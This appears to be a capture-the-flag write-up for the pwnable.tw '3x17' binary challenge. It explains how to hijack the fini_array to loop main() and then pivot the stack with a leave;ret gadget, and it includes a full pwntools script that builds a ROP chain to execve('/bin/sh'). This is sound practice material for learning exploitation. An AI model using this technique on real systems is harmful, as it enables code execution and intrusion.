 ## 3x17
### Overview
We get arbitray 0x18 bytes write at any location. No way to leak stack so we have to use PIE addresses only. __libc_start_main function was called with main() function pointer as well as an init function and fini function. Researching about fini function, got to know its a kind of destructor and runs after main() returns.

In fini function, it basically reads a fini array in reverse order, and calls whatever pointer is in there. We can just put address of our function main() there. The problem was in this second run, value at 0x4b92e0 is 1, which means main() won't ask for our input and just exits.

To fix this, we add the address of fini_func at fini_array[0], and main at fini_array[1]. What this does is, it first executes main(), which returns, and then executes the fini_func/destructor function, which again executes the pointers in fini_array. 

How does this infinite loop benefit us? On every loop, main function does `data_4b9330 += 1;`, so after 255 runs, it overflows and becomes 0 again, and main will once again ask for our input. With this we can keep writing anything anywhere.

Since NX is enabled, and we can't leak stack, we have to do something at PIE addresses only. Luckily, in fini_func, RBP is set to pointer to `fini_array[0]`.

Before:
 - RBP : 0x4b40f0
 - RSP - \<some stack address>

Now if we call a leave ; ret gadget, what that will do is - 

1. call instruction, when executed will push address of next instruction on stack, and jump to address.
2. leave is conjoint for - 
    ```
    mov rsp, rbp
    pop rbp
    ```
    The pop also increments the RSP, so overall, RBP becomes value at RBP address, and new RSP becomes old RBP+8.

    And now when ret is executed, it just to RBP+8, which here is fini_array[1].

We can let main() function sit at fini_array[1] and write our ROP chain next to it, setting up for syscall. Finally, we write address of leave_ret gadget at fini_array[0], which breaks out of loop and gives us the shell.


```py
from pwn import *

exe = ELF("./3x17_patched")

context.binary = exe
context.log_level = 'debug'
r = ROP(context.binary)

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10105)
    return process([exe.path])

p = conn()

def overwrite(addr, target):
    p.sendafter(b"addr:", str(addr).encode())
    p.sendafter(b"data:", target)

fini_func = 0x402960
fini_0 = 0x4b40f0
main = 0x401b6d

#loop over main, with overflow in checking variable.
overwrite(fini_0,    p64(fini_func) + p64(main))

##syscall to execve
overwrite(fini_0+16, p64(r.rdi.address)+p64(fini_0+160))
overwrite(fini_0+32, p64(r.rsi.address)+p64(0))
overwrite(fini_0+48, p64(r.rax.address)+p64(0x3b))
overwrite(fini_0+64, p64(r.rdx.address)+p64(0))
overwrite(fini_0+80, p64(r.syscall.address)+p64(0))
overwrite(fini_0+160, b"/bin/sh\x00")

#leave; ret;
overwrite(fini_0, p64(r.leave.address)) 

p.interactive()
```